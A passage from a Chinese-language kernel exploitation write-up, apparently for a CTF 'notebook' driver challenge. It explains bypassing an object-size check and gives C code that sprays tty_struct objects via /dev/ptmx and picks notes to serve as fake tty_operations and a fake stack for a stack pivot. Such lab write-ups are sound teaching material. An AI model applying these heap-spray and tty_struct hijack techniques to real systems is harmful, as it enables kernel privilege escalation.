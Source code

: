 # Step 13: exp编写——另开线程进行恶意写入
需要注意的是，在read和write函数均有_check_object_size函数调用，用于检查内存块的大小。这里是为了检查note的真实大小是否等于size。为了绕过这个检查，我们除了需要使用noteedit函数外，还需要使用noteadd函数将size改小一些。

修改之前：
![](https://img-blog.csdnimg.cn/fb373e9c2d64495db893b4482b1fc56f.png)
修改之后：
![](https://img-blog.csdnimg.cn/69193e61231c4b2f8ba0142a34d2e92b.png)
# Step 14: exp编写——重复打开/dev/ptmx，获取tty_struct地址
在我们阻塞了一些线程之后，打开/dev/ptmx文件，tty_struct就有可能分配到note的地址中：

```c
    for(int i=0; i<0x60; i++)
        ptmx_fds[i] = open("/dev/ptmx", O_RDWR | O_NOCTTY);
    printf("\033[1;32mHeap sprayed by lots of tty_struct by opening /dev/ptmx\n\033[m");
    sleep(1);

    for(int i=0; i<0x10; i++)
        pthread_create(&add_thread, NULL, noteadd_exp, (void*)i);
    notebook_msg(true);
    sleep(1);

//    for(int i=0; i<0x10; i++)
//        sem_post(&add_sem);
//    sleep(1);

    char ttyinfo[0x300];
    memset(ttyinfo, 0, 0x300);
    char* hit_address = NULL;
    int hit_idx = -1;
    char* fake_ttyops_address = NULL;
    int fake_ttyops_idx = -1;
    size_t* fake_stack_address = NULL;
    int fake_stack_idx = -1;
    for(int i=0; i<0x10; i++){
        read(fd, ttyinfo, i);
        int header = *((int*)ttyinfo);
        if(header == 0x5401 || header ==  0x5402){
            hit_address = notebook_msg(false)[i].note;
            hit_idx = i;
        }else{
            if(fake_ttyops_idx == -1){
                fake_ttyops_address = (char*)(notebook_msg(false)[i].note);
                fake_ttyops_idx = i;
            }
            else{
                fake_stack_address = (size_t*)(notebook_msg(false)[i].note);
                fake_stack_idx = i;
            }
        }
        if(hit_address && fake_stack_address)
            break;
    }
```
这里重复打开之后，遍历所有的note，检查其magic魔数以判断是否是tty_struct结构体。对于不是tty_struct结构体的note，我们选择两个出来作为假的tty_operations和假的栈空间，准备用于栈迁移。
